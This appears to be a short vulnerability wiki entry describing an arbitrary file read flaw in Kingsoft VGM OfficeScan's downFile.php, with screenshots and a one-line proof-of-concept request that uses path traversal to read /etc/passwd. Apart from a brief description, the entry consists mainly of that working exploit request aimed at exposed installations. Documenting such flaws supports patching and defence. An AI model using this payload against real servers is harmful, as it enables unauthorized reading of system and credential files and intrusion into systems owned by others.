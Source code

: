 # Kingsoft VGM OfficeScan downFile.php arbitrary file reading vulnerability

## Vulnerability Description

Kingsoft VGM OfficeScan downFile.php file has arbitrary file reading vulnerability, and attackers can obtain any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kingsoft VGM OfficeScan</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649952941780-18a6aa75-45de-487e-bbf7-3fe231d7aec1.png) Verify POC

```php
/downFile.php?filename=../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649953010512-03ef2560-62c5-4e06-8dd9-01650487c045.png)